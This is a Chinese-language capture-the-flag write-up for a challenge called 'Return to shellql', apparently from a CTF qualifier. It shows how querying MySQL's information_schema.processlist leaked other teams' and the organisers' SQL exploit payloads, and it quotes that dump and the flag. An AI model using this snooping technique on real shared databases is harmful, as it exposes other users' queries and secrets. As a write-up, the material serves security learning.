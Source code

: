 # Return to shellql (shellretql)

黑人問號的一題

這題跟去年幾乎一樣，Payload可以直接拿來用

shellme.so有上 seccomp ，只能 read / write / exit

然後flag在`/flag`

除了能像去年一樣任意Query Mysql外，找不到其他可以讀檔的洞

Mysql的權限也只有SELECT，沒辦法`load_file`

最後經過漫長的一天半，主辦方維修完之後

發現從`Processlist`就能任意撈到FLAG惹....

`select group_concat(info) from information_schema.processlist;`:

```
     (    def    group_concat(info)    U                "        select "OOO{WaTCH ouT FoR THaT ReTuRN TRiP}", sleep(5),SELECT @query:=0x3a3a UNION SELECT @tmp:=0x20 UNION SELECT benchmark(500000,(@tmp:= (SELECT Group_concat(info) FROM information_schema.processlist WHERE info NOT LIKE 0x7265706c616365 or sleep(0) ))^(IF((@tmp!=0x00)&&(@query NOT LIKE concat(0x253a3a,replace(@tmp,0x0a,0x5c5c6e),0x3a3a25)), @query:=concat(@query,replace(@tmp,0x0a,0x5c6e),0x3a3a),0 ))) UNION SELECT @query limit 3,1,SELECT @query:=0x3a3a UNION SELECT @tmp:=0x20 UNION SELECT benchmark(500000,(@tmp:= (SELECT Group_concat(info) FROM information_schema.processlist WHERE info NOT LIKE 0x7265706c616365 or sleep(0) ))^(IF((@tmp!=0x00)&&(@query NOT LIKE concat(0x253a3a,replace(@tmp,0x0a,0x5c5c6e),0x3a3a25)), @query:=concat(@query,replace(@tmp,0x0a,0x5c6e),0x3a3a),0 ))) UNION SELECT @query limit 3,1,SELECT a.b FROM (SELECT @dummy, @query:='<START>',@tmp:=0x20, benchmark(500000,(@tmp:= (SELECT Group_concat(info) FROM information_schema.processlist WHERE info not like '%dummy%' or sleep(0)))or(IF((@quer       "
```

flag: `OOO{WaTCH ouT FoR THaT ReTuRN TRiP}`

(15分鐘內從1隊解，變成20+隊解XD)

貌似韓國隊一開始就是用這招撈到主辦方的Exploit，所以後來主辦直接大放送flag
